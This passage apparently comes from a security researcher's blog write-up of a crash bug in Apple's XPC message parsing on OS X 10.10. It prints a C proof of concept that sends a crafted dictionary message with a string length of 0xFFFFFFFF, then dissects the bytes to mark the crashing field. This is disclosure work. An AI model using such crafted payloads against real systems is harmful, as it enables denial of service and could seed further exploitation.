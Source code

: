 int main(){
        unsigned char payload[] = {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
        send_payload(payload, sizeof(payload));

        return(0);
}%
{% endhighlight %}

Dissecting the payload, we can see:

{% highlight text %}
21 43 50 58: Macing "!CPX"
05 00 00 00: Version 5
00 f0 00 00: Type 'dictionary'
5c 00 00 00: Size 0x5c
04 00 00 00: 4 entries
68 61 6e 64 6c 65 00 00: Key 'handle'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value 1
73 75 62 73 79 73 74 65 6d 00 00 00: Key 'subsystem'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value 1
61 00 00 00: Key 'a'
00 90 00 00: Type 'string' 
ff ff ff ff: Size 0xFFFFFFFF    ** TRIGGER CRASH **
61 00 00 00: Value 'a'
72 6f 75 74 69 6e 65 00: Key 'routine'
00 40 00 00: Type 'uint64'
01 00 00 00 00 00 00 00: Value '1'
{% endhighlight %}

Apple has fixed this specific instance of the bug, but before I upgraded to 10.11 I noticed that the class of bug still existed in the newest version of 10.10. As of 10.11, it seems that Apple has changed from using the 'mach_msg_send' function from userland to using another function call - based on the lack of the `mach_msg_send` function call in `libxpc.dylib`. I have yet to try any of the crashes on OSX 10.11+.

